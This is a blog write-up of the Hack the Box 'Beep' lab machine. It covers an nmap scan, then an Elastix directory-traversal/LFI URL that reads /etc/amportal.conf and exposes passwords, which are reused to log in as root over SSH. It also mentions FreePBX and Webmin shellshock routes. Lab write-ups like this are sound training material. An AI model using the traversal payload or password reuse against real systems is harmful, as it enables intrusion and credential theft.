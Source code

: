 ```yaml
---
type: post
title: "Hack the Box Beep Write-up"
date: 2020-05-17 11:37:00 +1000
---
```

Continuing the "OSCP-like" boxes series with Beep from Hack the Box.

## Overview

![Beep information image](/assets/img/beep/beep-infocard.png){: .align-right}

Beep is another CVE based machine with multiple entry points. Some of which give instant root access and others which require some privilege escalation on the box.

Skills tested:

- Port scanning
- Service enumeration
- Vulnerability CVE identification
- Vulnerability exploitation
- Privilege escalation (optional)

## Scanning and Enumeration

Scanning this box with nmap `nmap -sC -sV -oA nmap/beep 10.10.10.7` finds a large number of ports open. Ports 80 and 443 are normally the best to begin enumerating but 10000 (webmin) is also potentially vulnerable and the other services may provide valuable for user enumeration or information leakage.

```text
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: RESP-CODES AUTH-RESP-CODE LOGIN-DELAY(0) EXPIRE(NEVER) STLS USER APOP UIDL PIPELINING IMPLEMENTATION(Cyrus POP3 server v2) TOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: IMAP4 Completed OK LISTEXT X-NETSCAPE BINARY UIDPLUS URLAUTHA0001 RIGHTS=kxte CONDSTORE ACL IMAP4rev1 NAMESPACE STARTTLS NO IDLE ANNOTATEMORE RENAME CHILDREN SORT MULTIAPPEND CATENATE THREAD=REFERENCES THREAD=ORDEREDSUBJECT MAILBOX-REFERRALS SORT=MODSEQ UNSELECT LIST-SUBSCRIBED ATOMIC LITERAL+ ID QUOTA
443/tcp   open  ssl/https?
|_ssl-date: 2020-05-12T14:14:57+00:00; +1m20s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com
```

## Port 80 and 443

![Beep http login page](/assets/img/beep/beep-port80-login.png){: .align-right}

Browsing to port 80 redirects to port 443 and displays the login page for "Elastix" as seen on the right. This leads us to a exploit-db.com and a possible local file inclusion (LFI) exploit that appears simple of execute.

The [Elastix exploit](https://www.exploit-db.com/exploits/37637) is relatively straightforward to perform. The directory traversal and LFI allow for the reading of a sensitive configuration file and some password reuse allows us to directly login as root via SSH.

## Elastix LFI

Browsing to `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action` presents us with the contents of amportal.conf and some sensitive passwords.

![Beep LFI](/assets/img/beep/beep-elastix-lfi.png){: .align-center}

Using SSH we can try that password as root. You may run into a protocol negotiation error but we can get around that by specifying the protocols directly as shown below.

`ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc root@10.10.10.7`

Once we login with the exposed password we have full access to the box and can grab both the user.txt and root.txt flags!

## Optional Extras

There are a number of other ways to own this box as shown in [IppSec's YouTube walkthough](https://www.youtube.com/watch?v=XJmBpOd__N8) of beep.

- A FreePBX exploit
- Webmin shellshock exploit

Enjoy!
